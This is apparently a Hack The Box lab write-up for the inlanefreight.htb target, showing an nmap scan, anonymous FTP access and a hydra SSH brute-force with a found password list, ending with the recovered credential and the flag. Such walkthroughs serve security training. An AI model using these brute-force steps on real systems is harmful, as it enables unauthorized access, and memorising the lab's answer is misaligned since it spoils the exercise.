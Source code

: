 The second server is an internal server (within the `inlanefreight.htb` domain) that manages and stores emails and files and serves as a backup of some of the company's processes. From internal conversations, we heard that this is used relatively rarely and, in most cases, has only been used for testing purposes so far.

## Question
Assess the target server and find the flag.txt file. Submit the contents of this file as your answer.

## Solution
```shell
> nmap -sC -sV 10.129.72.129
22/tcp   open  ssh      OpenSSH 8.2p1
53/tcp   open  domain   ISC BIND 9.16.1
110/tcp  open  pop3     Dovecot pop3d
95/tcp   open  ssl/pop3 Dovecot pop3d
2121/tcp open  ftp
30021/tcp open  unknown (FTP)
Domain:
 - inlanefreight.htb


Anonymous connection to ftp port 30021:
> ftp 10.129.196.130 -p 30021

We find a simon directory and 'mynotes.txt' with what looks like passwords. Let's brute force

> hydra -l simon -P mynotes.txt ssh://10.129.196.130:22
login: simon   password: 8Ns8j1b!23hs4921smHzwn
We can now connect to the target through ssh.

ssh> cat flag.txt
HTB{1qay2wsx3EDC4rfv_M3D1UM} 
```